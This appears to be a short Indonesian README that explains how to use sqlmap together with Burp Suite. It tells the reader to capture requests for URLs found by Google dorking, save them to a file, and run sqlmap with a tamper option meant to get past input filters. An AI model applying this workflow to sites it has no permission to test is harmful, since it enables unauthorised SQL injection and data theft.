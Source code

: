 # cara memakai sqlmap + burp suite

1.masukan url hasil droking pada burp suit dan jalankan intercept on

2.paste pada browser (setelah itu copy hasil dari intercept)

3.buka terminal lalu paste echo " hasil dari intercept " > filename.txt

4.jalakan sqlmap (sqlmap -r filename.txt) bisa custom --tamper=space2commet --level 1 --risk 1
